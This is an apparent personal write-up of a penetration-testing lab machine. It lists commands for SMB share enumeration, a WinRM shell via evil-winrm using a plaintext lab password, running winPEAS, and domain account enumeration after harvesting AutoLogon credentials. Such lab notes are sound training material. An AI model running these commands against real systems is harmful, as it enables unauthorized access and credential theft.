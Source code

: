`crackmapexec smb 10.10.10.175 -u fsmith -p Thestrokes23 --shares`
![[Pasted image 20241213191258.png]]
Notable share: RICOH printer 

Run `searchsploit ricoh`

There's a local priv esc
![[Pasted image 20241213191604.png]]
Ricoh priv esc is a 2019 CVE. 

Running `wget http://10.10.10.175/about.html` the website image

Running #exiftool on `about.html` to try to figure out the date of the website . Website image uploaded in 2020.

![[Pasted image 20241213191836.png]]

Trying crackmapexec with #winrm 

`crackmapexec winrm 10.10.10.175 -u fsmith -p Thestrokes23`

![[Pasted image 20241213192310.png]]
Run #evilwinrm 

`evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23`

for initial access shell

![[Pasted image 20241213192445.png]]
Running #winpeas for privilege escalation 

Serving up #winpeas.exe by copying it to current directory and then running `upload winPEAS.exe`... wut


![[Pasted image 20241213192655.png]]
Run winpeas

`./winpeas.exe`

Checking out Ricoh priv esc. 

Testing priv esc command to see if vulnerable driver is on the target machine.  

![[Pasted image 20241213192859.png]]
Vulnerable ricoh driver does not exist. 

Found "AutoLogon credentials" from winpeas output

![[Pasted image 20241213193214.png]]
Using these credentials:
`net user /domain svc_loanmgr` (just domain user)

![[Pasted image 20241213193431.png]]
Run `net user /domain`
